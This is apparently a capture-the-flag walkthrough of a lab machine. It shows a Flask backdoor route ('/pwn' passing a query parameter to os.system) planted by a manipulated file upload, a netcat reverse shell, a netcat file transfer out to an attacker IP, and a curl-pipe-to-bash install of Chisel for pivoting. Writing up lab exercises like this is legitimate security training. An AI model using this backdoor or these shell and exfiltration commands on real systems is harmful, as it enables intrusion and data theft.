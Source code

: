 ![](/images/opensource/opensource5.png)

Great, now we just need to make some kind of backdoor. We can add another @route to the `views.py` file. THis will essentially give us another endpoint to interact with via `burpsuite`. We want this endpoint to do something on the system. We can use Pythons `os.system()` to access the underlying OS. So now we need to write a quick route:

```python
@app.route('/pwn')
def pwn():
    return os.system(request.args.get('cmd'))
```

Now what we will do is call this endpoint and supply it with some arguments. But first, let's append this to an upload. I'm going to upload the original `views.py` file and append this custom route and change the file location via `burpsuite`.

![](/images/opensource/opensource6.png)

With that new file uploaded we can hit the `pwn` endpoint and send a command:

![](/images/opensource/opensource7.png)
![](/images/opensource/opensource8.png)

We get a connection back on our `netcat` listener! Although it's not that stable and fequently drops which makes this type of box difficult at times.
Once we've caught out connection back, we see we're running as `root`. Well that's not quite right. We do know from out previous enumeration and digging that the service runs in a container. So we just need to find our way out. We see that the container IP is `172.17.0.3`. We could assume that our gateway or host is the `172.17.0.1`. We can make a quick `bash` script to itterate through the ports or use your own method.

We see 3 ports, `22`,`80` and `3000`. Sounds familiar... We `wget` port `80` only get the upcloud hosting, as expected. When we get port `3000`.

Command:
Setup a listener:
`nc -lvnp 6660 >> index.html`

Send the file from the compromised container:
`cat index.html | nc 10.10.16.9 6660`

We see this is a `Gitea` instance. Now in order for us to actual use this `Gitea` instance, we need to use the web interface. Once again we will use [`Chisel`](https://github.com/jpillora/chisel).

If `Chisel` isn't already on your machine you'll need to `clone` the repo.

Command:
`git clone https://github.com/jpillora/chisel`

Now we can build the tool with `go build`. Alternatively, you can use the one liner to install `Chisel` on your machine and simply manke a copy.

Command:
Install Chisel:
`curl https://i.jpillora.com/chisel! | bash`
